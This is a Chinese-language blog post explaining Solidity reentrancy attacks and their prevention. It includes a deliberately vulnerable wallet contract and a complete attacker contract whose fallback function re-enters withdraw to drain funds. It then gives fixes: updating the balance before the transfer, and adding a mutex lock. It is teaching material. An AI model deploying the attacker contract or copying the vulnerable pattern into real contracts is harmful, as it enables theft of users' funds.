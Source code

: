 ```yaml
---
title: solidity 重入攻击和预防
categories:
  - blockchain
date: 2020-09-21 22:32:48
tags:
---
```


solidity 执行是单线程事务执行的，所以没有并发也就没有了竞态，所以怎么可以进行重入攻击呢？


如下所示代码，警告⚠️：下面代码有严重bug！

```Solidity
pragma solidity ^0.7.0;

interface IWallet {
    function deposit() external payable;
    function withdraw(uint _amount) external;
    function balanceOf(address _address) external view returns (uint256);
}

contract Victim is IWallet {
    mapping(address => uint256) public balances;

    function deposit() public payable override {
        balances[msg.sender] += msg.value;
    }

    function balanceOf(address _address) public view override returns (uint256){
        return balances[_address];
    }
    
    function withdraw(uint _amount) public override {
        require(balances[msg.sender] >= _amount);
        (bool success,) = msg.sender.call{value: _amount}(new bytes(0));
        require(success);
        balances[msg.sender] -= _amount;
    }
}
```

这是一个钱包，之前存取，看起没有什么问题，但是如果我们withdraw发送到一个合约里面，我们可以利用合约重新调用 withdraw 就可以耗尽钱包里所有的钱。

```Solidity
contract Hacker {
    address payable public owner;
    IWallet public wallet;

    constructor (IWallet _wallet) {
       owner =  msg.sender;
       wallet = _wallet;
    }

    function deposit() public payable {
        wallet.deposit{value: msg.value}();
    }
    
    function withdraw() public payable {
        require(msg.sender == owner);
        wallet.withdraw(wallet.balanceOf(address(this)));
    }

    fallback() external payable {
        if (msg.sender == address(wallet)){
            uint balance = wallet.balanceOf(address(this));
            if (msg.sender.balance >= balance){
                wallet.withdraw(balance);
            }
        }
    }

    function flush() public {
        require(msg.sender == owner);
        selfdestruct(owner);
    }
}
```

问题出在哪里？Victim.withdraw 仅开始检查了余额，然后最后才扣减余额，那么我们就可以再目标合约 fallback 里面重新调用 Victim.withdraw 直到耗尽合约内的钱。

不仅如此，耗尽之后，调用栈结束后没有检查溢出，Hacker 合约的钱凭空变的更多！

```Solidity
balances[msg.sender] -= _amount;
```

最简单的解决方式是校验完余额然后立即扣减余额，这样重入的时候余额就不会检查失败。

```Solidity
    function withdraw(uint _amount) public override {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount; // 转账之前进行扣减
        (bool success,) = msg.sender.call{value: _amount}(new bytes(0));
        require(success);
    }
```

除此之外，我们可以设计锁机制。

```Solidity
contract Victim is IWallet {
    mapping(address => uint256) public balances;
    bool private locked;
    
    modifier Mutex {
        require(!locked, "locked!");
        locked = true;
        _;
        locked = false;
    }

    function withdraw(uint _amount) public override Mutex {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount;
        (bool success,) = msg.sender.call{value: _amount}(new bytes(0));
        require(success);
    }
}
```